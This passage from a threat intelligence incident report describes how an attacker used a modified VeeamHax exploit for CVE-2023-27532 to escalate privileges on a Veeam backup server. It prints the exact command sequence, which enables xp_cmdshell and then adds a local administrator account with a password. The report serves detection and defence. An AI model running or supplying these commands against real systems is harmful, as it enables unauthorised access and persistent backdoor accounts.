 ## [Privilege Escalation](https://thedfirreport.com/2024/12/02/the-curious-case-of-an-egg-cellent-resume/?utm_source=tldrinfosec#privilege-escalation)

 The threat actor then used a modified version of VeeamHax ([https://github.com/sfewer-r7/CVE-2023-27532](https://github.com/sfewer-r7/CVE-2023-27532)). This tool exploited CVE-2023-27532. Below is a side by side of the decompiled version we observed and the source. The main changes were to allow arbitrary SQL commands to be supplied as an argument evaluated on the Veeam target.

[![](https://thedfirreport.com/wp-content/uploads/2024/12/27899_026.png)](https://thedfirreport.com/wp-content/uploads/2024/12/27899_026.png)

The –cmd argument gets executed through a hard coded xp\_cmdshell command. As seen below, the threat actor stuck to using the default value in the original version of the VeeamHax exploit – c:\\windows\\notepad.exe.

[![](https://thedfirreport.com/wp-content/uploads/2024/12/27899_027.png)](https://thedfirreport.com/wp-content/uploads/2024/12/27899_027.png)

This ended up being executed on the target SQL server but did not serve any purpose to their goals. The notepad process was used for Proof of Concept purposes. In this execution context, Notepad.exe is considered a harmless process that does not lead to any malicious activity. The –sql argument was the custom addition to the script that would allow arbitrary SQL commands to be passed to the exploit.

The threat actor ran the following commands using their custom version of VeeamHax.exe to enable xp\_cmdshell before creating a local administrator named sqlbackup with the password of Password!1221!.

```
VeeamHax.exe --verbose --target <backup server> --port 9401 --cmd "c:\windows\notepad.exe" --sql "select @@version"
VeeamHax.exe --verbose --target <backup server> --port 9401 --cmd "c:\windows\notepad.exe" --sql "EXEC sp_configure 'show advanced options', '1'"
VeeamHax.exe --verbose --target <backup server> --port 9401 --cmd "c:\windows\notepad.exe" --sql "RECONFIGURE"
VeeamHax.exe --verbose --target <backup server> --port 9401 --cmd "c:\windows\notepad.exe" --sql "EXEC sp_configure 'xp_cmdshell', '1' "
VeeamHax.exe --verbose --target <backup server> --port 9401 --cmd "c:\windows\notepad.exe" --sql "RECONFIGURE"
VeeamHax.exe --verbose --target <backup server> --port 9401 --cmd "c:\windows\notepad.exe" --sql "EXEC master..xp_cmdshell 'net user sqlbackup Password!1221! /add'"
VeeamHax.exe --verbose --target <backup server> --port 9401 --cmd "c:\windows\notepad.exe" --sql "EXEC master..xp_cmdshell 'net localgroup administrators sqlbackup /add'"
```

The VeeamHax.exe binary included the developers Program Database (PDB) string as:

```
E:\Developer\yahtochka\2\CVE-2023-27532\obj\Release\VeeamHax.pdb
```

From the backup server we observed the net commands executed by the MSSQL process.

```
"%WINDIR%\system32\cmd.exe" /c net user sqlbackup Password!1221! /add
"%WINDIR%\system32\cmd.exe" /c net localgroup administrators sqlbackup /add
```
